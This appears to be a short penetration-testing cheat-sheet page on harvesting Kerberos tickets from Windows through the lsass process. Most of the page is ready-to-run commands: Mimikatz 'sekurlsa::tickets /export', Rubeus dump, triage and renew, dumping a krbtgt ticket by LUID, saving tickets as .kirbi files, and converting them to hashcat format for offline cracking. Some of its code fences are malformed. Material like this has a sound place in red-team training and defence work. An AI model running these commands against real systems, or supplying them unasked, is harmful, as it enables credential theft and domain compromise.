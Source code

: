 # Harvesting tickets from Windows


Tickets in Windows are managed and stored by the **lsass** (Local Security Authority Subsystem Service) process, responsible for handling security policies. To extract these tickets, it's necessary to interface with the lsass process. A non-administrative user can only access their own tickets, while an administrator has the privilege to extract all tickets on the system. For such operations, the tools **Mimikatz** and **Rubeus** are widely employed, each offering different commands and functionalities.

### Mimikatz

Mimikatz is a versatile tool that can interact with Windows security. It's used not only for extracting tickets but also for various other security-related operations.

```bash
# Extracting tickets using Mimikatz
sekurlsa::tickets /export
```
```
### Rubeus

Rubeus is a tool specifically tailored for Kerberos interaction and manipulation. It's used for ticket extraction and handling, as well as other Kerberos-related activities.

```bash
# Dumping all tickets using Rubeus
.\Rubeus dump
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))

# Listing all tickets
.\Rubeus.exe triage

# Dumping a specific ticket by LUID
.\Rubeus.exe dump /service:krbtgt /luid:<luid> /nowrap
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))

# Renewing a ticket
.\Rubeus.exe renew /ticket:<BASE64_TICKET>

# Converting a ticket to hashcat format for offline cracking
.\Rubeus.exe hash /ticket:<BASE64_TICKET>
```
```
When using these commands, ensure to replace placeholders like `<BASE64_TICKET>` and `<luid>` with the actual Base64 encoded ticket and Logon ID respectively. These tools provide extensive functionality for managing tickets and interacting with the security mechanisms of Windows.

## References

- [[https://www.tarlogic.com/en/blog/how-to-attack-kerberos/|https://www.tarlogic.com/en/blog/how-to-attack-kerberos/]]



